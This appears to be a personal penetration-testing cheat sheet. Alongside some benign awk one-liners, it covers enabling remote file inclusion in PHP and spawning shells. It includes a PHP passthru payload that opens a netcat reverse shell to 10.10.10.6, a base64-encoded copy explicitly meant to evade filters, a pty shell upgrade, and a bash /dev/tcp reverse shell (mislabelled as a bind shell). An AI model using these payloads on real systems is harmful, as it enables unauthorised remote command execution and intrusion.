 # === 'awk' Commands ===
"""
awk -F ":" '{print $1 $6}' /etc/passwd
	#-F sets the delineator, in other words, how awk recognizes columns from stdout
	
awk 'BEGIN{FS=":"; OFS="-"} {print $1,$6,$7}' /etc/passwd

awk -F "/" '/^\// {print $NF}' /etc/shells 
	#the carrot(^) grabs the beginning of every line, and the '\' escapes the '/' so that awk searches for every line that begins with a slash(/)
	#$NF is the last field of the awk stdout

awk 'length($0) < 8' /etc/shells

awk '$1 ~ /^[b,c]/ {print $0}' .bashrc
	#print every line where the first line is a 'b' or a 'c'
"""


# === Enable Remote File Inclusion on a PHP website ===
"""
sudo nano /etc/php5/cgi/php.ini

Ctrl + w
	allow_url
enable:
	"allow_url_fopen" & "allow_url_include"
restart web server:
	sudo /etc/init.d/apache2/restart


#execute OS commands w/ passthru() function
#create a php file:
<?php
passthru("nc -e /bin/sh 10.10.10.6 8080");
?>
#base64 encoding helps evade filters and php can decode it natively on server side
<?php
passthru(base64_decode("bmMgLWUgL2Jpbi9zaCAxMC4xMC4xMC42IDgwODA="));
?>
"""

# === Shell Spawning ===
"""
Python3 spawn a pty shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
-turn off terminal echo, foregrounds the shell
	export TERM=xterm
		stty raw -echo; fg 

Bash BIND shell:
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
"""
